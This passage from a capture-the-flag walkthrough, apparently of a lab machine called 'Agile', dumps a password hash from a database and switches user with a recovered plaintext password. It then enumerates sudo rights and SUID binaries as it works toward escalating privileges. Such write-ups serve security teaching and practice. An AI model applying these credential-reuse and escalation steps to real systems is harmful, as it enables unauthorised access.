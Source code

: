 ```sql
|  9 | bokchee  | $6$rounds=200000$hdzdR9b6vnVAidb0$7kYVSC9lxJG1HyWUsFRw6Ln2WsiFrTohwPrikGEIEPYnHz6KqlmtWhLgJktRWlwoWoHxdjNfrU8vJu5MOqIuZ/ |
+----+----------+--------------------------------------------------------------------------------------------------------------------------+
3 rows in set (0.00 sec)
```

From database, I can find several credentials including `corum`'s.
Among these, `corum` is working locally.

```bash
(venv) www-data@agile:/app/app-testing/tests/functional$ su corum
su corum
Password: 5db7caa1d13cc37c9fc2

corum@agile:/app/app-testing/tests/functional$ id
id
uid=1000(corum) gid=1000(corum) groups=1000(corum)
```


# Shell as `edwards`

### Enumeration

```bash
corum@agile:/app/app-testing/tests/functional$ sudo -l
sudo -l
[sudo] password for corum: 5db7caa1d13cc37c9fc2

Sorry, user corum may not run sudo on agile.
```

It's not sudoable.

```bash
corum@agile:/app/app-testing/tests/functional$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/libexec/polkit-agent-helper-1
/usr/bin/umount
/usr/bin/mount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/su
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/opt/google/chrome/chrome-sandbox
```
